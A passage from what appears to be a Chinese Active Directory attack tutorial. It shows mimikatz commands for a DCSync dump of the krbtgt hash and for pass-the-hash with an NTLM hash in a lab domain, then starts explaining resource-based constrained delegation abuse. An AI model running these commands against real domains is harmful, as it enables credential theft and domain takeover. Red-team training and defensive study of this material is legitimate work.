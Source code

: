 [![](assets/1705982146-f3a2018a17419bfeec9b269b6a485dbc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223145-a31c68bc-b7a0-1.png)  
Step 5:利用 DCSync 读取 krbtgt 的 HASH

```bash
lsadump::dcsync /user:krbtgt /domain:hacke.testlab
```

Step 6:通过 dcsync 读取 hacke\\Administrator 的 HASH 进行 PTH

```bash
privilege::debug
sekurlsa::pth /user:Administrator /domain:hacke.testlab /ntlm:9492fbc31a047a42a454f0e1701103dc /run:cmd.exe
```

PS：以上 Step 5、6 为后续补充的，所以没有截图，同时 Step 5、6 可以用作横向移动~

### 资源约束性委派攻击

#### 基本介绍

该攻击由国外安全研究员 Elad Shami 提出，他在文章中指出无论服务账号的 UserAccountControl 属性是否被设置为 TrustedToAuthForDelegation 值，服务自身都可以通过调用 S4U2Self 来为任意用户请求自身的服务票据，但是当没有设置该属性时，KDC 通过检查服务账号的 TrustedToAuthForDelegation 位和 msDS-AllowedToDelegateTo 这两个字段，发现没有被赋值时，服务自身通过 S4U2Self 请求到的 ST 服务票据是不可转发的，因此不可转发的 ST 服务票据是无法通过 S4U2Proxy 转发到其他服务进行约束性委派认证的，但是在基于资源的约束委派过程中，不可转发的 ST 服务票据仍然可以通过 S4U2Proxy 转发到其他服务进行委派认证，并且最后服务还会返回一张可转发的 ST 服务票据，因此，如果我们能够在服务 B 上配置允许服务 A 的基于资源的约束委派，那么我们就可以通过控制服务 A 使用 S4U2Self 向域控请求任意用户访问自身的服务票据，最后再使用 S4U2Proxy 转发此 ST 票据去请求访问服务 B 的可转发的 ST 服务票据，那么我们就可以模拟任意用户访问服务 B 了，这里我们可以以普通域用户的身份去创建机器账号作为服务 A。  
引用博客文章中的一张图说明该攻击步骤：  